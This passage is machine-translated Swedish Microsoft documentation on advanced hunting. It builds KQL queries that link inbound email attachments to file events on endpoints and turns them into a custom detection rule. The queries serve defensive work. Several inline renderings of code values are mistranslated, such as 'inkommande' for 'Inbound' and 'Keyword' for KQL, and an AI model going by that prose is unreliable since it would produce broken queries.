    


4.  Nu när du har verifierat att du kan se e-postmeddelandet lägger du till ett filter för de bifogade filerna. Fokusera på alla e-postmeddelanden med bifogade filer i miljön. I det här scenariot fokuserar du på inkommande e-postmeddelanden, inte de som skickas ut från din miljö. Ta bort alla filter som du har lagt till för att hitta meddelandet och lägga till | där **AttachmentCount > 0** och **EmailDirection**  ==  **"inkommande" "**

I följande fråga visas resultatet med en kortare lista än den första frågan för alla e-posthändelser:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  Ta sedan med informationen om den bifogade filen (till exempel: fil namn, hash-värden) till din resultat uppsättning. För att göra det, gå med i **EmailAttachmentInfo** -tabellen. De vanligaste fälten som används för att ansluta i det här fallet är **NetworkMessageId** och **RecipientObjectId**.

Följande fråga inkluderar också ytterligare en rad "| **Project – Byt namn på EmailTimestamp = tidsstämpel**"som hjälper dig att identifiera vilken tidsstämpel som hör till e-postmeddelandet jämfört med tidsstämplar relaterade till fil åtgärder som du lägger till i nästa steg.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  Använd sedan värdet **SHA256** från tabellen **EmailAttachmentInfo** för att söka efter **DeviceFileEvents** (fil åtgärder som inträffade på slut punkten) för denna hash.  Det gemensamma fältet här blir SHA256-hashvärdet för bilagan.

Den resulterande tabellen innehåller nu information från slut punkten (Microsoft Defender ATP), till exempel enhets namn, vilken åtgärd som utfördes (i det här fallet filtrerades endast FileCreated händelser) och var filen lagrades. Det konto namn som är kopplat till processen tas också med.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

Nu har du skapat en fråga som identifierar alla inkommande e-postmeddelanden där användaren öppnade eller sparade den bifogade filen. Du kan också förfina den här frågan och filtrera efter specifika avsändare, fil storlekar, filtyper och så vidare.

7.  Funktioner är en särskild typ av koppling som gör att du kan hämta mer TI-information om en fil, som dess för-och inloggnings uppgifter, information om undertecknare, uppgifter och mottagare.  Om du vill ha mer information om filen använder du funktionen **FileProfile ()** .

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**Skapa en identifiering**

När du har skapat en fråga som identifierar information som du vill **få aviseringar** om om de händer i framtiden kan du skapa en anpassad avkänning av frågan. 

Anpassade identifieringar kör frågan utifrån den frekvens som du anger och resultaten för frågorna skapar säkerhets varningar baserat på de objekt du väljer. Dessa meddelanden kommer att korreleras med tillbud och kan triaged som annan säkerhets varning som genereras av en av produkterna.

1.  På sidan fråga tar du bort raderna 7 och 8 som lades till i steg 7 i anvisningarna för att få läsa och klickar på **skapa detektions regel**. 
    
     

>[!NOTE]
>Om du klickar på regeln för att **skapa en identifiering** och det finns syntaxfel i frågan sparas inte identifierings regeln. Dubbelkolla din fråga för att se till att det inte finns några fel. 


2.  Fyll i de obligatoriska fälten med den information som gör att säkerhets teamet kan förstå varningen, varför det genererades och vilka åtgärder du förväntar dig. 

    

Kontrol lera att du fyller i fälten med klarhet för att ge nästa användare ett välgrundat beslut om den här varningen för identifierings regel 

3.  Välj vilka enheter som påverkas av den här aviseringen. I det här fallet väljer du **enhet** och **post låda**.

    
 

4.  Ta reda på vilka åtgärder som ska vidtas om notifieringen utlöses. I det här fallet kör du en Antivirus genomsökning, men andra åtgärder kan vidtas. 

     

5.  Välj omfattning för aviserings regeln. Eftersom den här frågan gäller enheter är enhets grupperna relevanta i denna anpassade identifiering enligt Microsoft Defender ATP-kontext.  När du skapar en anpassad identifiering som inte innehåller enheter som påverkade enheter gäller inte omfattningen.  

     

För denna pilot kanske du vill begränsa den här regeln till en delmängd av test enheter i produktions miljön.

6.  Välj **Skapa**. Välj sedan **anpassade identifierings regler** från navigerings panelen.
 
     

     

Från den här sidan kan du välja ett identifierings uttryck som öppnar en informations sida. 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ytterligare avancerade övningar

För att få reda på mer om Advanced jakt kan följande webb sändningar vägleda dig genom de avancerade jakternas funktioner i Microsoft Threat Protection (MTP) för att skapa frågor från flera pelaren, pivotera till enheter och skapa anpassade identifierings-och reparations åtgärder.

>[!NOTE]
>Förbered dig med ditt eget GitHub-konto för att köra jakt frågorna i test laboratorie miljön för pilot.  

| **Title** | **Beskrivning** | **Ladda ner MP4** | **Titta på YouTube** | **CSL fil som ska användas** |
|:-----|:-----|:-----|:-----|:-----|
| Avsnitt 1: grundläggande om Keyword | Vi kommer att få grunderna i de avancerade jakt funktionerna i Microsoft Threat Protection. Läs mer om tillgängliga avancerade jakt data och grundläggande Keyword-syntax och-operatörer. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Avsnitt 1: CSL-fil i git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Avsnitt 2: kopplingar | Vi fortsätter att lära sig mer om data i avancerad jakt och hur du ansluter samman tabeller. Lär dig mer om inre, yttre, unika och mellananslutna och Nuances för standard Kusto innerunique Join. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Avsnitt 2: CSL-fil i git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Avsnitt 3: summera, pivotera och visualisera data|Nu när vi kan filtrera, hantera och koppla data är det dags att börja sammanfatta, kvantifiera, pivotera och visualisera. I det här avsnittet ska vi gå igenom den sammanfattande operatorn och vissa av de beräkningar som du kan utföra när du dykresa till ytterligare tabeller i det avancerade stöldskydds schemat. Vi förvandlar våra data uppsättningar till diagram som kan hjälpa till att förbättra analyser. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Avsnitt 3: CSL-fil i git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Avsnitt 4: Låt oss titta! Använda Keyword i händelse spårning|Tid för att spåra viss angripares aktivitet! I det här avsnittet ska vi använda vår förbättrade förståelse av Keyword och avancerad jakt i skydd mot Microsoft Threat för att spåra ett angrepp. Lär dig mer om de tips och tricks som används i fältet för att spåra angrepps aktivitet, inklusive ABCs Cybersecurity och hur du använder dem för att söka efter händelser. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Avsnitt 4: CSL-fil i git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Nästa steg
| <br>[Stänga och sammanfatta fasen](mtp-pilot-close.md) | Analysera ditt Microsoft Threat Protection pilot resultat, presentera dem för dina intressenter och ta nästa steg.
|:-----|:-----|

